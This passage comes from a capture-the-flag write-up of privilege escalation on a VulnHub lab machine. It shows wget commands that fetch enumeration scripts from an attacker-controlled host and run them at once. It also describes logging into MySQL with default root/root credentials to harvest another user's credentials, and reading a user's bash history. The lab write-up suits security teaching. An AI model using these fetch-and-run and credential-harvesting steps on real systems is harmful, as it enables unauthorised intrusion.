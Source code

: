``` {.python .numberLines}
root
mysql
user1
user2
user3
user4
user5
user6
user7
user8
```

\newpage
## Phase #3: Privilege Escalation
1\. We start with downloading the privesc enumerations scripts:  
``` {.python .numberLines}
wget http://192.168.92.163:8000/lse.sh ; chmod +x ./lse.sh ; ./lse.sh | tee lse.txt
wget http://192.168.92.163:8000/linenum.sh ; chmod +x ./linenum.sh ; ./linenum.sh | tee linenum.txt
wget http://192.168.92.163:8000/linuxprivchecker.py ; chmod +x ./linuxprivchecker.py ; python ./linuxprivchecker.py | tee linuxprivchecker.txt

```

2\. We also explore the `home` directories of users and find some inetresting files:  
``` {.python .numberLines}
/home/user3/shell → setuid
/home/user4/abc.txt → owned by root
/home/user5/script → setuid

```

![writeup.privesc.steps.2.1](Box%20Write-ups/vulnhub.escalatelinux/screenshot03.png)  

![writeup.privesc.steps.2.2](Box%20Write-ups/vulnhub.escalatelinux/screenshot04.png)  

![writeup.privesc.steps.2.3](Box%20Write-ups/vulnhub.escalatelinux/screenshot05.png)  

3\. From `linenum.sh` scan, we find that the MySQL service allows login with the default credentials `root/root`. We use this to connect and get credentials for the `mysql` user:  

![writeup.privesc.steps.3.1](Box%20Write-ups/vulnhub.escalatelinux/screenshot07.png)  

![writeup.privesc.steps.3.2](Box%20Write-ups/vulnhub.escalatelinux/screenshot07a.png)  

4\. We investigate the `setuid` files now. Since the first `setuid` file `/home/user3/shell` is owned by `user3`, we checkout their `.bash_history` to see possible usage commands:  
``` {.python .numberLines}
cat /home/user3/.bash_history

```

![writeup.privesc.steps.4.1](Box%20Write-ups/vulnhub.escalatelinux/screenshot08.png)  
